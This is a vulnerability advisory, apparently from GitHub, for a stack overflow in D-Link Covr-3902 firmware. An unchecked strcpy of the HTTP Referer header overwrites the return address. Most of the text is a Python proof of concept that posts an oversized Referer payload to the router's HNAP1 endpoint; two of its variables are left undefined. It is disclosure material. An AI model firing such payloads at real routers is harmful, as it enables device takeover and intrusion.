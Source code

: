 # Covr-3902 stack overflow vulnerability
## Overview
Manufacturer's website:[http://www.dlink.com.cn/](http://www.dlink.com.cn/)
Firmware download website:[http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=Covr-3902](http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=Covr-3902)
## Affected version
FW101b05
## Vulnerability details
In the function `sub_24E28`, the `HTTP_REFERER` is obtained through an environment variable, and this field is controllable, allowing it to be used as the value for `src`.
![](./_v_images/20240812131205937_2109.png)
When the field value does not match the field within the program, it enters the `else` branch.
![](./_v_images/20240812123056250_20357.png)
The stack overflow is achieved through the `strcpy` function, which overwrites the return address, and the address is controllable.
![](./_v_images/20240812142111525_6038.png)
## POC
```python
import requests
from pwn import *
payload = (
    b"http://192.168.0.1/SystemPayload"
    + payload_value
    + p32(0xdeadbeef)
    + payload_value2
    + p32(0xdeadbeef)
    + p32(0xdeadbeef)
    + cyclic(0x400)
)
# URL encode the payload to make it safe for use in the Referer header
burp0_url = "http://192.168.0.1:80/HNAP1/"
burp0_cookies = {"uid": "YAQEECTwfI"}
burp0_headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "text/xml; charset=utf-8",
    "SOAPAction": "\"http://purenetworks.com/HNAP1/GetDeviceFeatureAlpha\"",
    "HNAP_AUTH": "6E2565C8AE7008FF550E57BEB55A8FEE 1723345713",
    "Content-Length": "318",
    "Adcheck": "65535",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.1",
    "Connection": "close",
    "Referer": payload  
}
response = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
print("Response Status Code:", response.status_code)
print("Response Content:", response.text)
```
